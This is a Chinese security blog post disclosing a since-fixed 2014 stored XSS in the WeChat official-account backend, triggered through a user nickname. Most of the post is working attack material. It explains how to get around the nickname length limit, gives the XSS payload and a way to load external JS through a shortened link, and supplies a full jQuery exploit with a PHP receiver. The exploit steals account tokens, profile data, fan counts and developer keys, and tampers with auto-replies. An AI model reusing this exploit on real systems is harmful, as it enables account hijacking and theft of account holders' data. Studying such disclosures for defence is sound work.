 ```yaml
---
layout: post
title: 微信公众号后台跨站漏洞 EXP (已修复)
---
```


#### Vul Description

 - 提交时间：2014-08-19 15:04:14
 - 修复时间：2014-08-19 20:00:11
 
问题存在于微信公众号后台查看消息时用户名处的触发。#### Bypass nickname length limit

微信对用户名进行了长度限制，使用安卓版微信可以绕过长度限制，这里测试使用的红米手机微信5.2：

![wechat_version](/images/FB10EC57-738D-4FB1-9A3D-E85E2E1EFBD8.png)

#### Detailed

绕过名字长度后，将微信用户名修改为：```test/*<img/src=@/onerror=alert(1)>```
回复公众号，后台查看触发：

![wechat_xss_demo1](/images/FEEF04DC-70B4-4B61-935D-482D1C34ABB2.png)

之后我们考虑如何嵌入外部JS以方便的调试接下来要编写的Exploit，微信公众号后台使用https，需要引用外部的https js资源才行，之后我找到了：[https://bitly.com/shorten/](https://bitly.com/shorten/)

使用bitly将放置在github的https js资源连接进行网址缩短，例如：

	https://gist.githubusercontent.com/Evi1m0/497330da6935a30/raw/0c8ab3d6fec57c8052262e85c315549f1d0e869a/1.js
	
连接缩短：bit.ly/1dPaWIx ，生成后默认为http修改为https即可。

最后嵌入JS的长度为：

![wechat_xss_demo2](/images/258F0D1C-F712-4459-8040-B5CF7B641278.png)

#### Exploit

 - 获取公众号注册信息、登录邮箱等个人信息
 - 获取公众号粉丝数量
 - 普通模式则篡改自动回复的内容
 - 开发模式则偷取Key值和连接地址
 - 获取Token
 - More

```Wechat-exp.js```: 微信公众号后台使用jQuery，使用jQuery编写此exp。
	
    /*
     * mp.weixin.qq.com exp.js
     * author: Evi1m0 & Chichou
     * date: 20140313
     */

    (function() {
        // 在IE7以下支持JSON格式化
        if (typeof JSON.stringify !== 'function') {
            JSON.stringify = function(object) {
                var array = [];
                for (var i in object) {
                    var s = object[i], v = (typeof s == 'object' && s != null) ? JSON.stringify(s) :
                        (/^(string|number)$/.test(typeof s) ? "'" + s + "'" : s);
                    array.push("'" + i + "':" + v);
                }
                return '{' + array.join(',') + '}';
            }
        }

        // send data
        var send = function(item, data) {
            if(typeof data == 'object')
                data = JSON.stringify(data);
            new Image().src = ["http://localhost/wxprobe.php?subject=wechat&uin=", wx.data.uin, "&item=", item, "&data=", data].join('');
        }

        // 公号信息
        var user = {
            token: wx.data.t,
            uin: wx.data.uin,
            name: wx.data.user_name
        };
        send('id', user);

        // 粉丝人数
        $.get('/cgi-bin/home?t=home/index&lang=zh_CN&token=' + user.token, function(data) {
          var dom = $(data);
          var fans={};
          var fans = $('.number')[2].innerHTML;
          send('fans', fans);
        });

        // 详细资料
        $.get('/cgi-bin/settingpage?t=setting/index&action=index&token=' + user.token, function(data) {
            var dom = $(data);
            var profile = {};
            dom.find('li.account_setting_item .tips,li.account_setting_item .desc').remove();
            dom.find('li.account_setting_item').each(function(i, e) {
                profile[$.trim($(e).find("h4").text())] = $.trim($(e).find('.meta_content').text());
            });
            send('profile', profile);
        });

        // 开发模式
        $.get('/cgi-bin/advanced?action=dev&t=advanced/dev&token=' + user.token, function(data) {
            var dom = $(data); data = dom.find("#js_container_box .frm_input_box");
            var dev = {}
            $.each(['url', 'token'], function(i, e) {
                dev[e] = $.trim(e.innerHTML);
            });
            send('dev', dev);
        });

        //普通模式
        $.get('/cgi-bin/autoreply?t=ivr/reply&action=beadded&token=' + user.token, function(data) {
            var form = {
                token: wx.data.t,
                lang: wx.data.lang,
                random: Math.random(),
                f: 'json',
                ajax: 1,
                cgi: 'setreplyrule',
                fun: 'save',
                t: 'ajax-response',
                content: 'Attack Content'
            };

            var keyword = {'replytype': 'replytype : "', 'ruleid': 'rule_id : "'};
            for(var i in keyword) {
                if(data.indexOf(keyword[i]) === -1) {
                    form[i] = '';
                } else {
                    var left = data.indexOf(keyword[i]) + keyword[i].length, right = data.indexOf('"', left);
                    form[i] = data.substring(left, right);
                }
            }

            //篡改
            $.post('/cgi-bin/setreplyrule', form);
        });
    })();

```wxprobe.php```: 服务端接受获取内容

    <?php

    /*
     * Wechat probe
     * author: <evi1m0#ff0000.cc>
     * 20140313
     */

    @header("Content-Type:text/html;charset=utf8");
    if (!(isset($_GET['subject']) && $_GET['subject'] === 'wechat')) die;

    //获取信息
    $uin = urldecode($_GET['uin']);
    $item = urldecode($_GET['item']);
    $data = urldecode($_GET['data']);

    //判断创建
    if(!file_exists('./wxdata.html')){
        $fp = fopen('./wxdata.html', 'a+');
        fwrite($fp,'<head><meta http-equiv="Content-Type" Content="text/html; charset=utf8" /> <title>wxdata</title></head>');
    }
    $fp = fopen('./wxdata.html', 'a+');
    fwrite($fp, htmlspecialchars($uin). "| <br>item: ". htmlspecialchars($item). "<br>Data: ". htmlspecialchars($data). "<hr><br>");
    fclose($fp);

    ?>